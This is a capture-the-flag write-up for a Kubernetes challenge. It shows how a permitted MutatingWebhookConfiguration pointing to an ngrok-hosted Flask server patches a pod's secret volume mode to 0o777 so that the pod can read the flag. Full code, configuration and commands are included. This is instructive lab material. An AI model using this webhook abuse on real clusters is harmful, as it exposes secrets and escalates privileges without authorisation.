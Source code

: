 ```
Mutant
cloud
🔥 kcal:  	263
Reps:  	14
Trainer:  	p4ck3t0

Train and do Kubernetes like a mutant!
We have two identical instances.

nc mutant.flu.xxx 8888

nc mutant2.flu.xxx 8888

The gym is closed. You cannot complete workouts anymore.
```

This challenge has 5 namespaces
```
NAME              STATUS   AGE
default           Active   71s
flag-reader       Active   60s
kube-node-lease   Active   71s
kube-public       Active   71s
kube-system       Active   71s
mutant            Active   60s
```
```
$ kubectl get pods -n mutant
No resources found in mutant namespace.
$ kubectl get pods -n flag-reader
NAME                           READY   STATUS              RESTARTS   AGE
flag-reader                    0/1     ContainerCreating   0          2s
pod-applier-78fd9f7868-xdhhj   1/1     Running             0          100s
```
pod-applier pod is creating and destroying flag-reader pod continuously 
```
$ kubectl logs -f flag-reader -n flag-reader
Executing cat /flag/flag...
cat: can't open '/flag/flag': Permission denied

Shutting down...
```
now the thing is pod contains `flag` secret and pod  has not permission because we have different user who is trying to read the file but only owner has permission to read the secret. 
but webhookconfigurations permission is given. So we can mutate the webhook configuration. 

How it all works together:

- When a pod is created or updated in the cluster, Kubernetes checks if there are any applicable webhooks.
- It finds your MutatingWebhookConfiguration and sends an admission review to your ngrok URL.
- ngrok forwards this request to your local Flask server.
- Your Flask server receives the request, modifies the pod spec to change the secret's permissions, and sends back a response with the patch.
- Kubernetes applies this patch before actually creating/updating the pod.
- As a result, the flag-reader pod is created with the secret mounted with full permissions (0o777), allowing it to read the flag.

here is the flask server 
```
from flask import Flask, request, jsonify
import json
import base64

app = Flask(__name__)

@app.route('/mutate', methods=['POST'])
def mutate_pod():
    admission_review = request.get_json()
    admission_request = admission_review['request']

    pod = admission_request['object']

    if pod['metadata']['name'] == "flag-reader":
        pod['spec']['volumes'][0]['secret']['defaultMode'] = 0o777
        
    patch = [
        {
            "op": "replace",
            "path": "/spec/volumes/0/secret/defaultMode",
            "value": 0o777
        }
    ]

    patch_bytes = json.dumps(patch).encode('utf-8')
    patch_base64 = base64.b64encode(patch_bytes).decode('utf-8')

    admission_response = {
        "apiVersion": "admission.k8s.io/v1",
        "kind": "AdmissionReview",
        "response": {
            "uid": admission_request['uid'],
            "allowed": True,
            "patchType": "JSONPatch",
            "patch": patch_base64 
        }
    }

    return jsonify(admission_response)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

```
and here is the mutating webhook configuration 
```
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: mutate-flag-reader
webhooks:
  - name: mutate.flag-reader.k8s.io
    clientConfig:
      url: "https://e908-103-37-201-178.ngrok-free.app/mutate"
    rules:
      - operations: ["CREATE", "UPDATE"]
        apiGroups: [""]
        apiVersions: ["v1"]
        resources: ["pods"]
    sideEffects: None
    admissionReviewVersions: ["v1"]
    failurePolicy: Ignore
```

run the flask server 
```bash
$ python3 webhook.py
$ ngrok http 5000
$ kubectl apply -f webhook-config.yaml
```
then when pod-applier will create the flag-reader pod again, it is able to read the flag secret.
```
$ kubectl logs -f flag-reader -n flag-reader

Executing cat /flag/flag...
flag{get_those_ga1nz}

Shutting down..
```
